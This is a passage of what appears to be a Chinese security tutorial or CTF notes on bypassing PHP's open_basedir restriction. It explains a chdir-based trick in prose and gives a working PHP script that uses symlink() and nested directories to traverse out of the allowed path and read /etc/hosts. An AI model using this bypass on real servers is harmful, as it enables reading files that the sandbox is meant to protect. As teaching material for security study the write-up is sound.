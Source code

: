 ![在这里插入图片描述](https://img-blog.csdnimg.cn/0de89b1084db49faa1d43b7d324d74a4.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAWjNleU9uZA==,size_20,color_FFFFFF,t_70,g_se,x_16)
**原理**：
[从底层理解绕过open_basedir](https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/#%E6%80%BB%E7%BB%93)
[bypass open_basedir的新方法](https://xz.aliyun.com/t/4720#toc-4)

若open_basedir限定到了当前目录，就需要新建子目录，进入设置其为..，若已经是open_basedir的子目录就不需要，因为限定到了当前目录再设置为..就会出错。之后每次引用路径就会触发open_basedir判别，而在解析open_basedir的时候会拼接上..，从而引发open_basedir自身向上跳一级，最后跳到了根目录，再将open_basedir设置到根目录即可。

至于底层的原理，等后面学php底层的时候再回来看看

### 利用symlink()
**符号连接**
>符号连接又叫软链接，是一类特殊的文件，这个文件包含了另一个文件的路径名(绝对路径或者相对路径)。路径可以是任意文件或目录，可以链接不同文件系统的文件。在对符号文件进行读或写操作的时候，系统会自动把该操作转换为对源文件的操作，但删除链接文件时，系统仅仅删除链接文件，而不删除源文件本身。

**symlink函数**
```php
symlink建立符号链接。
symlink(string $target, string $link): bool
symlink() 对于已有的 target 建立一个名为 link 的符号连接。
target
连接的目标。
link
连接的名称。
返回值 
成功时返回 true， 或者在失败时返回 false。
```
直接上`Bypass`
```php
<?php
    show_source(__FILE__);
    
    mkdir("1");chdir("1");
    mkdir("2");chdir("2");
    mkdir("3");chdir("3");
    mkdir("4");chdir("4");
    
    chdir("..");chdir("..");chdir("..");chdir("..");
    
    symlink("1/2/3/4","test");
    symlink("test/../../../../etc/hosts","flag");
    unlink("test");
    mkdir("test");
    echo file_get_contents("flag");
?>

```
当前路径是/www/wwwroot/test/，新建目录数量=需要上跳次数+1

**原理**
symlink会生成了符号连接，我们需要访问`/etc/hosts`，那么就需要上调3个目录，加上当前的目录，就是4个目录，所以使用`mkdir`和`chdir`创建四个目录。然后生成软链接`symlink("1/2/3/4","test")`,然后再生成` symlink("test/../../../../etc/hosts","flag")`,之后就用`mkdir`将软链接换成文件夹`test`。
所以，最后访问的就是`/www/wwwroot/test/../../../../etc/hosts`，目录穿越，也就是`/etc/hosts`。
